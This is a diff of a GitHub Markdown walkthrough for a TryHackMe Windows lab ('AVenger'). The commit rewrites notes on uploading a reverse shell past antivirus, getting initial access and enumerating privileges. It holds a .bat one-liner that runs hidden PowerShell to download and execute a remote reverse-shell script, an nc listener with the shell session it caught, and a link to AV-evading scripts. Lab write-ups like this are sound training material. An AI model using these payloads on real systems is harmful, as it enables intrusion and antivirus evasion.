

Before and after one commit to Youssef-Mohamed100/Youssef-Mohamed100, a Markdown page: Windows Pentest/THM/AVenger.md, 2 parts joined by grey strips. Shown at 83% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Windows Pentest/THM/AVenger.md
+++ b/Windows Pentest/THM/AVenger.md
@@ -141,32 +152,38 @@ Nmap done: 1 IP address (1 host up) scanned in 30.13 seconds
 
 <img width="1096" height="535" alt="image" src="https://github.com/user-attachments/assets/7ef1272c-6e48-4f12-b16a-0ddd23cf7f40" />
 
+### 2.3 File Upload Functionality
 
+While exploring the website, I discovered a file upload functionality.
 
-### I found file upload service, I tried to upload reverse shell but failed because antivirus
-
+I attempted to upload a reverse shell, but the upload was blocked by the antivirus.
 
 <img width="1168" height="557" alt="image" src="https://github.com/user-attachments/assets/c186c538-90bb-44c9-bcb9-82b96661b306" />
 
+## 3. Initial Access
 
-### I searched about powershell reverse shell scripts antivirus evasion but powershell scripts not excutable
+### 3.1 Antivirus Evasion
+
+I searched for PowerShell reverse shell scripts that could evade antivirus detection. However, the PowerShell scripts were not directly executable through the file upload functionality.
+
+I found the following repository containing PowerShell scripts:
 
 https://github.com/tihanyin/PSSW100AVB/tree/main/scripts
 
+To work around the upload restriction, I created a `.bat` file that executes the PowerShell script.
 
-### so I created .bat file to excute powershell script
-
-
-```
+```bat
 @echo off
 powershell -NoP -NonI -W Hidden -Command "IEX (New-Object Net.WebClient).DownloadString('http://192.168.192.119/ReverseShell_2025_01.ps1')"
 ```
 
+### 3.2 Obtaining a Reverse Shell
 
-### I opened server on port 80 to recieve requests of powershell script , then I opened listen port and get reverse shell
+I started an HTTP server on port 80 to serve the PowerShell reverse shell script. Then, I opened a Netcat listener on port 443.
 
+After triggering the uploaded batch file, I successfully received a reverse shell.
 
-```
+```text
 ──(kali㉿kali)-[~]
 └─$ sudo nc -nlvp 443
 [sudo] password for kali:
@@ -183,13 +200,19 @@ C:\Windows\system32>
 
 ```
 
+The current user was:
 
-## I checked on current priviliege but I did't have enougph priviliege , I tried run automate tools such as winPeas
-### but antivirus stop and remove tool
-
-
+```text
+gift\hugo
 ```
 
+## 4. Privilege Enumeration
+
+After obtaining the initial shell, I checked the current user's privileges to identify potential privilege escalation opportunities.
+
+### 4.1 Checking User Privileges
+
+```text
 C:\Windows\system32> whoami /priv
 whoami /priv
 
@@ -250,11 +273,15 @@ C:\Users\Public>
 
 ```
 
+Although the executable was downloaded successfully, it was blocked and removed before it could run. This indicated that the antivirus was preventing the execution of the tool.
 
-## I will try run another automate tool such as PowerUp.ps1 , antivirus don't recognize it as virus and will run
+### 4.2 Running PowerUp
 
+Since WinPEAS was blocked, I tried another enumeration tool: **PowerUp.ps1**.
 
-```
+Unlike the previous executable, the PowerShell script was not immediately detected by the antivirus, so I was able to download and execute it.
+
+```text
 C:\Windows\system32> cd C:\Users\Public
 cd C:\Users\Public
 
````
Also changed, not shown: other parts of Windows Pentest/THM/AVenger.md (+53 -20 lines).
